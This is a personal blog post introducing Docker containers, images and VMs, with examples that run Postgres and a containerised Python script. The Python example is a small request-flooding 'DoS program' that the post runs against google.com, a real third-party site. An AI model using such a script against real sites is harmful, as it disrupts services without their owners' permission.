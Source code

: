 ```yaml
---
date: "2019-09-29"
title: "Fun with Container"
category: "🐳"
---
```


Have been working with Docker things for couple months.
<br />
Can't wait to share some amazing things people can do with Docker container.
<br />
<br />

### What is container ?

Well, from <a href="https://www.docker.com/resources/what-container" target="__blank">the official docker documentation</a>

> A container is a standard unit of software that packages up code and all its dependencies so the application runs quickly and reliably from one computing environment to another. 

One real world example is developers can use container to package their development environment setups
which standardizes testing or deployment pipelines.

### What is container image ?

> A Docker container image is a lightweight, standalone, executable package of software that includes everything needed to run an application: code, runtime, system tools, system libraries and settings.

A Docker image is built up from a series of layers. Each layer represents an instruction in the image’s Dockerfile. Each layer except the very last one is read-only.
<br />
Considering Dockerfile below
```Dockerfile
FROM ubuntu:15.04
COPY . /app
RUN make /app
CMD python /app/app.py
```
Each commands will create a new layer. Layers are stacked on top of each other.
<br />
<br />
![alt text](https://storage.googleapis.com/warrenlee/myBlog/docker/container-layers.jpg)

The major difference between a container and an image is the top writable layer. All writes to the container that add new or modify existing data are stored in this writable layer. When the container is deleted, the writable layer is also deleted. The underlying image remains unchanged.
<br/>
<br/>
![alt text](https://storage.googleapis.com/warrenlee/myBlog/docker/sharing-layers.jpg)



### How about VM ?
Let's take a look at the differences of resources allocations between containers and VMs.
<br />
<br />
![alt text](https://storage.googleapis.com/warrenlee/myBlog/docker/docker-containerized-and-vm-transparent-bg.png)

#### Containers
Containers are an abstraction at the app layer that packages code and dependencies together. Multiple containers can run on the same machine and share the OS kernel with other containers, each running as isolated processes in user space. Containers take up less space than VMs (container images are typically tens of MBs in size), can handle more applications and require fewer VMs and Operating systems.
#### VMs
Virtual machines (VMs) are an abstraction of physical hardware turning one server into many servers. The hypervisor allows multiple VMs to run on a single machine. Each VM includes a full copy of an operating system, the application, necessary binaries and libraries - taking up tens of GBs. VMs can also be slow to boot.

### Let's have some fun
#### Case 1: Database
To pull the image from docker hub
```
docker pull postgres:latest
```
To launch a container based on the image we just pulled
```
docker container run -d -e POSTGRES_PASSWORD=pwd -e POSTGRES_USER=user postgres
```
Type 'docker container ls' to check list running containers. And you should see something like
```
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS               NAMES
546077cdde7e        postgres            "docker-entrypoint.s…"   2 minutes ago       Up 2 minutes        5432/tcp            intelligent_dijkstra
```
And use the command below to interact with db console
```
docker container exec -it CONTAINER_ID psql -U user
```
<br/>

#### Case 2: Integrate with a simple Python Task
Here we're going to create a very simple python program and execute it in a container

##### main.py
```py
import sys
import argparse
from requests_futures.sessions import FuturesSession

def pre_response_hook(n):
  def response_hook(resp, *args, **kwargs):
    print('Got response from %sth request' % n)
  return response_hook

def main():
  parser = argparse.ArgumentParser(description='Extremely simple DoS program')
  parser.add_argument('--workers', '-w', default=1, help='number of workers')
  parser.add_argument('--url', '-u', help='target URL')
  parser.add_argument('--number', '-n', default=1, help='number of requests')
  args = parser.parse_args()
  if args.url:
    num_of_workers = int(args.workers)
    num_of_requests = int(args.number)
    url = args.url
    print('Number of workers %d' % num_of_workers)
    print('Number of requests %d' % num_of_requests)
    print('Target URL: %s' % url)
    session = FuturesSession(max_workers=num_of_workers)
    print('Attacking...')
    responses = (session.get(url, hooks={
        'response': pre_response_hook(i+1)
    }) for i in range(num_of_requests))
    for response in responses:
      response.result()
      
if __name__ == '__main__':
  main()
```
<br />

##### requirements.txt
```
requests_futures==1.0.0
```
<br />

##### Dockerfile
```
FROM python:3.7-slim

WORKDIR /app

COPY requirements.txt ./
RUN pip install --no-cache-dir -r requirements.txt

COPY . .
```
<br />

And then we can build the custom image using the command below
```
docker build -t simple-dos .
```
Make sure we have image built by checking '<b>docker image ls</b>'
```
REPOSITORY  TAG     IMAGE ID      CREATED         SIZE
simple-dos  latest  f04502450e6b  3 minutes ago   926MB
```
The final step will be launching a container given arguments
```
docker run --rm simple-dos python main.py -u google.com -n 100 -w 5
```

The result will be something like
```
Number of workers 5
Number of requests 100
Target URL: google.com
Attacking...
Got response from 1th request
Got response from 2th request
Got response from 3th request
Got response from 4th request
Got response from 5th request
...
```
